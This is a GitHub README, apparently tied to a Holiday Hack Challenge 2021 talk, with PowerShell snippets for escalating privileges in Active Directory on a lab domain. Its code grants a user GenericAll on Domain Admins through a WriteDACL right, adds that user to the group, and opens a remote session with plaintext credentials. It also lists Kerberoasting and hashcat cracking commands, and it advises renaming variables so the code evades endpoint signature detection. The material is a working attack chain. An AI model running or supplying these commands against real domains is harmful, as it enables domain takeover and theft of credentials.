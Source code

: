 # [hhc21_powershell_snippets](https://github.com/chrisjd20/hhc21_powershell_snippets/blob/main/README.md)

These snippets show you how you can read and write to Active Directory group
objects DACLs. This also demonstrates using PowerShell to add an account to a AD
group.

**Note:** These code snippets (or similar) are used legitimately by many powershell apps and as such will likely not trip endpoint protections. However, if for some reason they do in the future, it will likely be due to signature matching of variable names which can be overcome by changing variable names around.

### You can read the DACL of an AD group object using:

``` powershell
# Can Use Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
# Or:
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
# Or:
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access
```

### In the below example, the "GenericAll" permission for the "chrisd" user to the "Domain Admins" group if the user your running it under has the "WriteDACL" permission on the "Domain Admins" group.

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("vulns.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### After giving "GenericAll" permissions over the "Domain Admins" group, the below snippet would add the chrisjd account to the "Domain Admins" group:

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$password = "Password!@12"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("vulns.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### Added bonus, here is how you can `Enter-PSSession` into a remote computer:

``` powershell
$password = ConvertTo-SecureString "Password!@12" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList ("vulns.local\chrisd", $password)
Enter-PSSession -ComputerName WIN-4JFNT305Q5J.vulns.local -Credential $creds -Authentication Negotiate
```

### Additional commands given during talk:

``` powershell
Invoke-BloodHound -CollectionMethod All

py -3 GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.96.101 vulns.local/chrisd:'Password!@12' -request

.\hashcat.exe -m 13100 -a 0 .\spns.txt --potfile-disable -r .\rules\best64.rule --force -O -w 4 --opencl-device-types 1,2 .\rockyou.txt

runas /noprofile /user:vulns_svc@vulns.local cmd

echo $env:LOGONSERVER
echo %LOGONSERVER%

net view \\WIN-4JFNT305Q5J

runas /noprofile /user:remote_employee@vulns.local cmd
```
